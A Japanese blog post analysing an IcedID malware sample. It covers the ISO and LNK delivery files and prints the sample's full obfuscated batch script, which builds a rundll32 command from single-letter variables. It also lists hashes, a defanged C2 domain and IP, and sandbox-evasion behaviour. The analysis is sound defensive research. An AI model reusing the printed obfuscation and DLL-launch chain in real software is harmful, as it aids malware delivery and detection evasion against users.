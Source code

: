 # IcedIDを見てみる

最近、 bumblebeeの新型が出てきたという話を見ながら、とはいえIcedIDも未だに使われてるな、と何となく感じました。  
あ、ちなみに以下の記事をベースにして話してます。

[bumblebeeの新型が出たという記事](https://www.bleepingcomputer.com/news/security/bumblebee-malware-adds-post-exploitation-tool-for-stealthy-infections/)

[LoaderがIcedIDなどからbumblebeeに移行している記事](https://thehackernews.com/2022/04/cybercriminals-using-new-malware-loader.html)

ちなみにmalware bazaarで見る限りそれぞれ以下の検知量になっています。  

![bumblebeeの統計](https://raw.githubusercontent.com/proshiba/analysis/main/icedid/images/bumblebee-stats.png)
引用元： https://bazaar.abuse.ch/browse/tag/BUMBLEBEE/

![icedidの統計](https://raw.githubusercontent.com/proshiba/analysis/main/icedid/images/icedid-stats.png)
引用元： https://bazaar.abuse.ch/browse/tag/BUMBLEBEE/

うーん。IcedIDが減った、のは事実でしょうが正直bumblebeeの数（グラフのスケールが12までになってますのでだいぶ少ない）ということを考えますとまだまだIcedIDの方が多いですね。  
Note: スケールの変え方わからないので見づらい。。

まぁ、とりあえずIcedIDはまだまだちょくちょく名前を聞きますのでこっちを見てみよう！ということでチェックしていきます。

### 対象マルウェア

今回見るのは以下のハッシュ値です。  
`2bfaaf86092bd183c8295fded306708d154874e5aed0d6743e591c8f469858be`

レポーターは、`pr0xylife`さんですね。twitterフォローしてますけどおすすめです。  
![twitter](https://raw.githubusercontent.com/proshiba/analysis/main/icedid/images/proxylife-twitter.png)
引用： https://twitter.com/pr0xylife/status/1567663680099082240

まぁ、このツイートと今回のものはハッシュ違いますが。内容は同じです。  
それでは、とりあえず進めていきましょう。  

### ファイルを見てみる

まず、検体(zip)をダウンロードして解凍するとisoファイルが入っています。  
![isoファイル](https://raw.githubusercontent.com/proshiba/analysis/main/icedid/images/iso-file.png)

さて、このisoファイルをマウントしてみてみましょう。そうすると正直いつも通りの状態になってます。  

![isoファイル](https://raw.githubusercontent.com/proshiba/analysis/main/icedid/images/iso-file02.png)

なんというか、これ見てると思いますがしばらくは隠しファイルも表示するのをデフォルトにした方がいいんじゃないかな、と思いますね。  

ついでに`Document`という名前のファイルですがこれはリンクファイルです。アイコンはexplorerになってますが、実際には`led\\xenopus.bat`

![lnkファイル](https://raw.githubusercontent.com/proshiba/analysis/main/icedid/images/lnk-file.png)

では、このバッチはどうなっているのか？これを見てみましょう。  
長いですけど、最後まで書いておきましょう。これだけだったら悪性の挙動しないですからね、DLLファイルは上げてないので。  

```bat
@echo off
:dkympiohczr
set rovbcq=l
:lbszqranmew
set njplbf=f
:hplfjzkiqva
set rhwmko=w
:otsnhbwzekq
set nvatjr=k
:riyfavsctle
set xdszpj=h
:pugjfqdmvit
set kmahbn=p
:ezcpoxbufvk
set yegwaz=o
:rnlmegyxboj
set mlprxq=d
:dzftlpmcksu
set vngouf=c
:qezbywdvinm
set rjkzxm=s
:laoefyrdtkg
set sgabfw=x
:nhlziuxydpb
set drxklq=e
:jqklgerxzsf
set jnboce=g
:bdocljgiewy
set ligzpu=i
:nzdqmlbugia
set axmgkn=a
:hvnxsemopcq
set iaxhro=t
:lazyruehsvc
set cuypsm=q
:pjflbraimhs
set venfld=u
:gzkoxpqeacn
set rkbtwm=n
:mswjvotzxbe
set nyhdtv=m
:uqgicfvhaxy
set jmaobn=b
:krsulcitzdx
set dztvcy=y
:emnrhsyfcvq
set xgsmbj=z
:wjgnzliekft
set lzaxgo=r
:hwudryzocpv
set fvnqul=j
:emtwukylfor
set smicae=v
:phqvgsmyiej
:ZJJ%kmahbn%%sgabfw%%vngouf%C%mlprxq%UQ%drxklq%T%rjkzxm%%njplbf%%nvatjr%Q%xdszpj%DH%xdszpj%B%njplbf%MB%xgsmbj%K%rovbcq%O
%lzaxgo%%venfld%%rkbtwm%%mlprxq%%rovbcq%%rovbcq%32 %rovbcq%%drxklq%%mlprxq%\%kmahbn%%lzaxgo%%drxklq%%kmahbn%%yegwaz%%rjkzxm%%rjkzxm%%drxklq%%rjkzxm%%rjkzxm%%ligzpu%%rkbtwm%%jnboce%.%mlprxq%%rovbcq%%rovbcq%,#1
:I%nvatjr%V%rhwmko%S%xdszpj%MQ
```

これ、何やってるかお分かりになりますかね？正直簡単な内容だからわかる人も多いかな、とは思います。  
内容は、単純で変数を定義してそれを組み合わせてコマンドを作ってます。

こういう時、逐一組み立ててもいいんですが、コマンド実行するところを`echo`で画面に出してしまうのが一番簡単です。  
ということで、以下のようにしてみます。(最後もついでにechoしました)  
```dos
echo %lzaxgo%%venfld%%rkbtwm%%mlprxq%%rovbcq%%rovbcq%32 %rovbcq%%drxklq%%mlprxq%\%kmahbn%%lzaxgo%%drxklq%%kmahbn%%yegwaz%%rjkzxm%%rjkzxm%%drxklq%%rjkzxm%%rjkzxm%%ligzpu%%rkbtwm%%jnboce%.%mlprxq%%rovbcq%%rovbcq%,#1
echo :I%nvatjr%V%rhwmko%S%xdszpj%MQ
```

で、batを実行してみると以下のようになります。  

![コマンド実行箇所](https://raw.githubusercontent.com/proshiba/analysis/main/icedid/images/cmd01.png)

さて、これで分かったことはdllファイルをrundll32で動かしていることですね。では今度はこのDLLファイルを見てみましょうか。  

sha256: c6d6277f1355336eb5da55531c1cc927067a1defee412c60ceb281452d2388d6

virustotalでは以下になってます。さすがに時間がたってるので大量に検出されてますね。  
![dll01](https://raw.githubusercontent.com/proshiba/analysis/main/icedid/images/dll-vt01.png)

relationを見ると、以下のように通信しているようです。  

![dll02](https://raw.githubusercontent.com/proshiba/analysis/main/icedid/images/dll-vt02.png)

通信先は`hxxp[:]//leonyelloswen[.]com`というURLになっています。  
名前解決後のIPアドレスは`138[.]197[.]151[.]48`です。

次に、DLL起動後に以下のようにインジェクション挙動があるようです。  
うーん。これについては何を起動するところで検知したのかがわからないですし、何とも言い難いです。  
![dll03](https://raw.githubusercontent.com/proshiba/analysis/main/icedid/images/dll-vt03.png)

サスペンドでプロセス起動するインジェクションで有名なのは`process hollowing`だと思いますが、これはどうなんでしょうかね。。  

さて、次にsandboxの古典的回避があったのでそれを見ます。  
![dll04](https://raw.githubusercontent.com/proshiba/analysis/main/icedid/images/dll-vt04.png)

長時間のスリーブは、なんだかんだ言ってやっぱり使われますね。  

静的解析も出来ればいいんですけどね。いずれは書いていきたい。

### 終わりに。

今回は、IcedIDを見ていきました。正直いつもとそこまで変わらない挙動をしていたような気もしますが。  
次は、bumblebeeを見てみましょうかね。ありがとうございました。
